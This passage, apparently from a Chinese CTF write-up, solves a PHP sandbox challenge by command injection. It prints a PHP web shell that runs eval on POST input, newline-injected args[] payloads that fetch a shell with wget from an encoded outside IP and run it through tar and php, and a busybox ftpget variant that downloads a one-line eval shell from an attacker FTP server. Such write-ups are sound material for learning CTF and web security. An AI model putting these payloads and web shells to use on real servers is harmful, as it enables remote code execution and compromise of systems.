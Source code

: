 所以有了接下来的步骤。

* **php执行代码**

**在linux中我们可以使用 `php` 这条命令执行非压缩的打包的PHP文件** 

继续测试一下，

1. 创建一个 `phpinfo.php`,写入 `<?php echo phpinfo();`
2. 通过 `tar` 打包为 test, 	`tar cvf test phpinfo.php`
3. 运行该文件， `php test`

可以看到，回显的内容是 `phpinfo` 执行成功后的内容，说明php代码执行成功了。那么我们就可以往服务器写入一句话木马。

![wVBWxe.png](https://s1.ax1x.com/2020/09/05/wVBWxe.png)

```
<?php
file_put_contents('shell.php', '
<?php
header("Content-Type: text/plain");
print eval($_POST["cmd"]);
?>
');
```

但是我们又不能直接打包index.html，（正则限制）。但是我们可以打包一个文件夹。所以我们的思路是，先创建一个文件夹，然后在文件夹下wget 我们的木马。之后打包文件夹，之后执行。

payload:

```
?args[]=xxx%0a&args[]=mkdir&args[]=exploit
?args[]=xxx%0a&args[]=cd&args[]=exploit%0a&args[]=wget&args[]=2067391933
?args[]=xxx%0a&args[]=tar&args[]=cvf&args[]=exp&args[]=exploit
?args[]=xxx%0a&args[]=php&args[]=exp
```

访问`http://114.xxx.xxx.129:8002/sandbox/59.xx.xx.114/shell.php`，成功访问.

找到flag,之后`cmd=system("cat './../../flag.php'");`就可以拿到flag了。

![wV68ht.png](https://s1.ax1x.com/2020/09/05/wV68ht.png)

只能说大佬们太牛逼了。

这里还有另外一种解法(只能说大佬们太牛皮了。。。。)：

这里利用busybox这个工具。通过busybox中的ftpget的下载命令为: 

	busybox ftpget -u ftp的用户名 -p ftp的密码 ftp地址 需要下载的文件名

首先我们需要搭个ftp服务器，然后在ftp务器上面创建一个shell.php文件，内容为 `<?php @eval($_POST['x'])?>`

那么即可免去wget中繁琐的解析步骤，tql

	?args[]=xxx%0a&args[]=busybox&args[]=ftpget&args[]=%2du&args[]=ftp123&args[]=%2dp&args[]=123456&args[]=3232246757&args[]=shell.php

直接从远程的ftp服务器上面下载php文件，此php文件就是一个简单的一句话木马。

成功地下载了shell.php文件，菜刀连接即可
